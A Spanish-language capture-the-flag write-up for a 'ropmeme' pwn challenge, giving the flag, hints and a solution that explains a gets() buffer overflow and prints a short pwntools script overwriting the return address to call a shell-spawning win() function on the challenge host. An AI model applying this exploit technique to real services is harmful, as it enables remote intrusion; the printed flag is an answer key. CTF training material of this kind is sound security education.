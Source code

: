 # Nombre: `ropmeme`
### Dificultad: `media`
### Categoría: `pwn`
### Autor: [Cae](https://c4ebt.github.io/)
### Flag: `DCCTF{pwn_c0ld3st_c4t3g0ry}`

### Descripción:
Recuperamos este binario de los tiempos en que Intro a la Progra se hacía en C y lo pusimos a correr en `104.237.138.109:5001`. Un montón de novatos programando en un lenguaje sin memory safety; que podría salir mal?

### Hint 1:
`man gets`

### Hint 2:
```
Alister: oye Cae el nombre de uno de tus desafíos tiene un typo
Cae: no es un typo ;)
```

### Solución:
Writeup muy superficial. Los conceptos que están por detrás del desafío son más profundos y las técnicas más complejas.
El source usa gets() para leer a un buffer de 64 bytes. gets() está deprecated, tal como indica su manpage: "Never use this function. Never use gets().  Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use.  It has been used to break computer security". Entonces, se tiene un buffer overflow en la call a gets. Usando la herramienta checksec se puede ver que el binario no tiene ni Canary ni PIE, solo NX, por lo que se debería poder explotar con un ROP. Haciendo un reversing mínimo se puede encontrar la función win(), que hace la syscall 0x3b (execve) con una shell como argumento, por lo que podemos llamarla para obtener una shell remota. Finalmente, el exploit usando pwntools queda así:

```python
from pwn import *

context.log_level = 'DEBUG'
#p = process("./ropmeme")
p = remote("ropmeme.dcctf.xyz", 80)

junk = "A"*72
payload = junk + p64(0x00401176)

p.sendline(payload)
p.interactive()
```
